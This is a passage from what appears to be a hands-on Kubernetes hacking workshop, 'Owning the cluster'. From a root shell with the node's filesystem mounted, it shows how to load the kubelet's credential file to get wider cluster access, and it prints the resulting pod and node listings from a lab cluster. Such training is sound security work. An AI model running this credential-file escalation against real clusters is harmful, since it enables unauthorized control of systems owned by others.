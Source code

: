 # Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through


* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 7: Owning the cluster](#part-7--owning-the-cluster)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next Step:](#next-step-)


## Part 7: Owning the cluster

Now we have the host filesystem on the node, we have access to a lot more information. Specifically interesting to our
goals is the kubelet's token which has **much** wider permissions than the ServiceAccount tokens we've been using up to
this point.

1. In the shell from our previous step—still root and with the host filesystem mounted—we'll grab the kubelet's context
   and use it look into the `kube-system` namespace and list the `nodes` in this cluster.

   Commands you'll need to run:
   * `export KUBECONFIG=/etc/kubernetes/kubelet.conf` - This is contains the kubelet's token
   * `kubectl get pods -n kube-system` - Lists the pods in the control-plane `kube-system` Namespace
   * `kubectl get nodes` - Lists the names and roles of the nodes that make up the cluster
   
   ```shell
   root@nonroot-priv:/# export KUBECONFIG=/etc/kubernetes/kubelet.conf
   
   root@nonroot-priv:/# kubectl get pods -n kube-system
   NAME                                         READY   STATUS    RESTARTS   AGE
   calico-kube-controllers-5c64b68895-9pqnb     1/1     Running   0          8h
   calico-node-b9dmb                            1/1     Running   0          8h
   calico-node-bmn4j                            1/1     Running   0          8h
   coredns-64897985d-7jkhh                      1/1     Running   0          8h
   coredns-64897985d-ktkdg                      1/1     Running   0          8h
   etcd-kind-control-plane                      1/1     Running   0          8h
   kube-apiserver-kind-control-plane            1/1     Running   0          8h
   kube-controller-manager-kind-control-plane   1/1     Running   0          8h
   kube-proxy-qsdx4                             1/1     Running   0          8h
   kube-proxy-zw8s2                             1/1     Running   0          8h
   kube-scheduler-kind-control-plane            1/1     Running   0          8h
   
   root@nonroot-priv:/# kubectl get nodes
   NAME                 STATUS   ROLES                  AGE   VERSION
   kind-control-plane   Ready    control-plane,master   8h    v1.23.6
   kind-worker          Ready    <none>                 8h    v1.23.6
   ```
